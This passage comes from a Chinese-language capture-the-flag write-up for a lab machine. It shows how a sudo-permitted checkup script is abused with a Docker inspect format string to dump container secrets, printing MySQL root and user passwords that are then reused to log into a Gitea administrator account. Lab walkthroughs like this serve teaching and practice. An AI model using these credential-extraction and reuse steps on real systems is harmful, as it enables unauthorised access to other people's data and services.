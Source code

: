 ```bash
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect ps f84a6b33fb5a
ps
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect id f84a6b33fb5a
id
```

#### 利用sudo获得敏感信息

像是docker本身的命令然后用连字符连接组成的新命令。然后尝试了几次运行这个 `docker-inspect` 命令，不过由于不懂这个 `<format>` 是指啥。于是搜了一波：

> <https://docs.docker.jp/config/formatting.html#json>  
> <https://docs.docker.com/engine/reference/commandline/inspect/#get-a-subsection-in-json-format>

看来可以将容器启动时的配置信息用json输出：
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

注意到：
```bash
"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
"MYSQL_USER=gitea",
"MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
"MYSQL_DATABASE=gitea",
```

尝试用root登陆SSH失败。

### gitea登陆administrator

回到gitea，尝试登陆administrator账号。竟然不是用MYSQL_ROOT_PASSWORD，而是MYSQL_PASSWORD。这台靶机的密码都有点迷……

里面有个私人仓库，扫了一圈注意到 `full-checkup.sh`：
```bash
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
```